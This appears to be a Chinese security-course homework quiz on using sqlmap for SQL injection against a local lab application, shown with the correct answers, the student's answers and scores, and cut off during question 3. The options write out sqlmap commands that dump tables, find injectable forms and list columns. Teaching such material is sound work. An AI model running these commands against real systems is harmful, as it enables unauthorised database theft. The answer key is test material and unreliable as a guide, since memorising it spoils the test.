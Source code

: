 - [第十九课时作业](javascript:void(0))



## 一.单选题*（共6题,75.0分）*

*1*

使用sqlmap显示表tb_stuinf表的内容。要求只显示xh,xm两个字段的内容，下面命令正确的是？

- A、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17 -T tb_stuinf -C xh,xm,class_name --dump

  

- B、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17 -T tb_stuinf --dump

- C、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17 -T tb_stuinf -C xh,xm --dump

- D、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17 -T tb_stuinf xh,xm --dump

正确答案： C 我的答案：C得分： 12.5分

*2*

使用sqlmap进行post方式的自动搜索表单进行注入的操作，下面命令正确的是

- A、

  sqlmap.py -u"http://127.0.0.1/demo17/login.php" --forms

  

- B、

  sqlmap.py -u"http://127.0.0.1/demo17/login.php" --froms

- C、

  sqlmap.py -u"http://127.0.0.1/demo17/login.php" --auto

- D、

  sqlmap.py -u"http://127.0.0.1/demo17/login.php" 

正确答案： A 我的答案：A得分： 12.5分

*3*

使用sqlmap查询表tb_stuinf有什么字段，下面命令正确的是？

- A、

  sqlmap.py -u"http://127.0.0.1/demo17/showgrade.php?xh=07120101" --cookie="PHPSESSID=3aie0lhgjmdeocj3j2p7t799j3" -D demo17 -T tb_stuinf --col
